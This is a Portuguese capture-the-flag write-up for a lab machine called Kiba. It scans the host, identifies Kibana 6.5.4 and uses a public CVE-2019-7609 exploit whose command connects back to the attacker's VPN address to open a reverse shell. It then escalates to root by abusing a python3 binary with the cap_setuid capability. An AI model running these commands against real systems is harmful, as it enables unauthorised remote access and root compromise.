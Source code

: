 # _**Kiba**_
![](kiba.jpg)

## _**Enumeração**_
_What is the vulnerability that is specific to programming languages with prototype-based inheritance?_  
A poluição do protótipo é uma vulnerabilidade de segurança que permite que um invasor modifique o protótipo de objetos base (como Object.prototype em JavaScript), o que afeta todos os objetos que herdam dele  

Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p- -A --open [ip_address]
> ```
![](scan_nmap.jpg)

Temos alguns serviços como website, SSH e Kibana  
Vamos tentar obter a versão do Kibana  
Visitando o website na porta descoberta e indo em _management_, temos a versão  
Agora, no google procuramos por alguma CVE relacionada ao **Kibana 6.5.4**  
Encontramos a seguinte [CVE-2019-7609](https://nvd.nist.gov/vuln/detail/cve-2019-7609)  
Procurando no google novamente, encontramos [este exploit no github](https://github.com/LandGrey/CVE-2019-7609)  
Verificamos como usar e temos o comando abaixo
> ```bash
> python2 CVE-2019-7609-kibana-rce.py -u http://[ip_address]:5601 -host [vpn_ip_address] -port [port] --shell
> ```
![](shell_obt.jpg)

Obtemos shell!  
Continuando, temos que para listar todas as _capabilities_, usamos o comando ```getcap -r / 2>/dev/null```  

![](getcap.jpg)

Encontramos algo de interessante  
Parece que o arquivo tem **cap_setuid+ep**, isso refere-se à capacidade de definir o ID do usuário ao executar o arquivo  
Esse recurso permite que o programa altere temporariamente seu ID de usuário efetivo para o do proprietário do arquivo, mesmo que o usuário que o executa não tenha privilégios de root  
Ter a capacidade _cap_setuid+ep_ em um arquivo significa que ele pode ser executado com os privilégios de seu proprietário, mesmo que o usuário que o executa não tenha esses privilégios  
Esse recurso pode ser potencialmente usado de forma abusiva para ataques de escalonamento de privilégios se houver vulnerabilidades no arquivo ou em seus programas associados  
Consultando [GFTOBins](https://gtfobins.github.io/gtfobins/python/#capabilities), temos  

![](gftobins.jpg)

Executamos o comando abaixo e obtemos root  
> ```bash
> cd /home/kiba/.hackmeplease
> ./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
> ```
![](root.jpg)
